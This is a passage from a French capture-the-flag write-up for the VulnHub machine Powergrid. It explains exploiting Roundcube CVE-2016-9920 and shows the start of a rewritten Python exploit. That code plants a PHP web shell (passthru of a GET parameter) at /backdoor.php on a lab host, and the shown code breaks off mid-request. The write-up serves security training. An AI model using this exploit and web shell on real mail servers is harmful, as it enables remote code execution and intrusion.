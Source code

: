 ```
EH9IQnxd39jtzzLsKWPFUe3G30ELm5TtnMd9WBQVtKNHxlCtD1eB3bTJgC6iHcOA
JowxDggqVtdxKQQEjLGquUkoS7Al5iMnuiA+AXFC5VMmnoPD9v/M3CZaM7qt6LOg
K5usFSp0gwjGvPQO1UJucrKyXSBlOxFbzOxcKClRGqHU4+Ir8Iu8MH1dlTmYH1Qr
UOdasHinj5UODyJyS7rHrzDr9kBKC7AAnCt0WHX7K3jVJEg0TnGpLFFIic7XrMld
6SXxrg0VWv1nqyKqaRXANGFqslktVGktJURntzj/kZD/9sO4Y6qoHMDNC3Aib3m9
RO1va5L9lriZ1vmP37FxIwsrCVVcNrPJxWydvw==
=fPY9
-----END PGP MESSAGE-----
```

Clé GPG… On n'en a pas ! Que va-t-on faire alors ?

Dans la majorité des CTFs, on agit par étapes : on exploite un élément qui permet d'accéder à autre chose puis on exploite ce nouvel élément, etc.

Sur certains CTFs plusieurs étapes peuvent être concentrées sur un même élément comme le CTF [Presidential]({% link _posts/2021-12-26-Solution-du-CTF-Presidential-de-VulnHub.md %}) où il fallait exploiter un `phpMyAdmin` quand on pensait simplement l'utiliser pour obtenir des données.

Justement ! L'auteur de `Powergrid` est le même que celui de `Presidential` ! Ici le `RoundCube` donne une étape et il faut aussi l'exploiter.

Une vulnérabilité existe qui est décrite ici : [Roundcube 1.2.2 - Remote Code Execution](https://www.exploit-db.com/exploits/40892)

Et un exploit est présent sur Gihub : [t0kx/exploit-CVE-2016-9920: Roundcube 1.0.0 <= 1.2.2 Remote Code Execution exploit and vulnerable container](https://github.com/t0kx/exploit-CVE-2016-9920)

Toutefois l'exploit a quelques défauts :

- l'authentification basic n'est pas supportée

- l'auteur ne semble pas savoir que `requests` peut gérer proprement les cookies en utilisant un objet `session`

- il échoue, car il n'obtient pas une redirection quand il l'espère et du coup n'obtient pas l'ID pour composer un email

J'ai donc recodé l'exploit, mais je ne suis pas allé dans les détails (pas de gestion des exceptions). Toutefois, il fonctionne correctement et permet de retrouver un shell sur le path `/backdoor.php`.

```python
import logging
import re
import sys

import requests

logging.basicConfig(level=logging.DEBUG)

BASE_URL = "http://192.168.56.107/zmail/"
CMD = "<?php echo passthru($_GET['cmd']); ?>"
BACKDOOR = "/var/www/html/backdoor.php"
sess = requests.session()
sess.auth = ("p48", "electrico")

response = sess.get(BASE_URL)
match = re.search('"request_token":"([^"]+)"', response.text)
request_token = match.group(0).split(":")[1].replace("\"", "")

payload = {
        "_token": request_token, 
        "_task": "login",
        "_action": "login",
        "_timezone": 1,
        "_dstactive": 1,
        "_url": "",
        "_user": sess.auth[0],
```